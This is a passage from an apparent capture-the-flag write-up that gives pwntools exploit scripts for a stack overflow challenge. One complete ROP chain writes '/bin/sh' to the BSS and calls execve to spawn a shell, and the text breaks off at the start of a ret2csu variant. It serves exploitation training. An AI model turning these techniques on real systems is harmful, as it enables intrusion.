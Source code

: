```python

p.sendline(payload)
p.interactive()
```

Welcome to embryo ROP.  Blow out the stack frame and get to the return address, then replace with the location of `get_flag()`.

But, what if `execve` in `get_flag` is really a troll, e.g. `/bin/echo no flag for you`?

No problem, we'll just have to send `/bin/sh` ourselves:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA',checksec=False)

if args.REMOTE:
    p = remote('pwn.utctf.live', 5000)
else:
    p = process(binary.path)

pop_rdi = binary.search(asm('pop rdi; ret')).__next__()
pop_rsi_r15 = binary.search(asm('pop rsi; pop r15; ret')).__next__()

payload  = b''
payload += 0x78 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.bss())
payload += p64(binary.plt.gets)
payload += p64(pop_rdi)
payload += p64(binary.bss())
payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(binary.plt.execve)
payload += b'\n'
payload += b'/bin/sh\0'

p.sendline(payload)
p.interactive()
```

Baby ROP.  Just need a few gadgets from the binary to then call `gets` ourselves to write `/bin/sh` to the BSS, then call `execve` directly.

For this to work `rdx` needs to be `0` and fortunately it is.

But what if `rdx` is not set to `0`?

No prob, ret2csu:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA',checksec=False)

if args.REMOTE:
    p = remote('pwn.utctf.live', 5000)
else:
    p = process(binary.path)

'''
  401210:   4c 89 f2                mov    rdx,r14
```